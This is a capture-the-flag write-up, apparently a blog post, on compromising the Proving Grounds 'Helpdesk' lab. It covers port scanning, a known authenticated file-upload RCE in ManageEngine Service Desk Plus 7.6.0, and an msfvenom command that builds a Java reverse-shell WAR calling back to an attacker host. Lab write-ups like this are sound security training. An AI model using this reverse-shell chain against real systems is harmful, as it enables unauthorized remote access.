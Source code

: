 ```yaml
---
title: "Proving grounds Practice: Helpdesk"
layout: post
date: 2023-08-27 03:00
categories: writeup
---
```


Proving grounds Practice - Helpdesk CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
```

## Web PORT: 8080

ManageEngine Service Desk Plus version 7.6.0

![img](/assets/images/CTF/Proving_Grounds/Helpdesk/mengine.png)

The ManageEngine Service Desk Plus version 7.6.0 is vulnerable to authenticated [Remote Code Execution](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py) vulnerability via file upload.

## Create reverse TCP shell to upload

```sh
msfvenom -p java/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f war > shell.war
```

As specified in the code create a java reverse shell in the `.war` file format to upload.

Run netcat listener.

Run the exploit code.

![img](/assets/images/CTF/Proving_Grounds/Helpdesk/upload.png)

**Reverse Shell Obtained**

![img](/assets/images/CTF/Proving_Grounds/Helpdesk/shell.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
